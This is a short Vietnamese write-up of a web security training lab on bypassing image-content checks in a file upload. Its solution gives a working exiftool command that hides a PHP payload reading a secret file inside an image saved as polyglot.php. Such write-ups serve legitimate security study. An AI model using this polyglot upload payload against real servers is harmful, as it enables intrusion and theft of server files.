

### Mô tả
> Lab này chứa một chức năng tải lên hình ảnh dễ bị tấn công. Mặc dù nó kiểm tra nội dung của tệp để xác minh rằng đó là hình ảnh chính hãng, nhưng vẫn có thể tải lên và thực thi mã phía máy chủ.
>
> Để giải quyết phòng thí nghiệm, hãy tải lên một web shell PHP cơ bản, sau đó sử dụng nó để lọc nội dung của tệp / home / carlos / secret. Gửi bí mật này bằng cách sử dụng nút được cung cấp trong biểu ngữ phòng thí nghiệm.
>
> Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: wiener: peter
### Giải quyết
- Vì trang web kiểm tra nội dung của tệp để xác minh nó là hình ảnh, từ đó có thể khai thác điều này để chèn web shell vào trong nội dung ảnh bằng công cụ exiftool.
- Chọn 1 bức ảnh bình thường bất kỳ và sử dụng lệnh: `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
`
- Cuối cùng, tải lên file `polyglot.php`, mở file và sử dụng chuỗi ký tự tìm được để submit.
###### Solved!
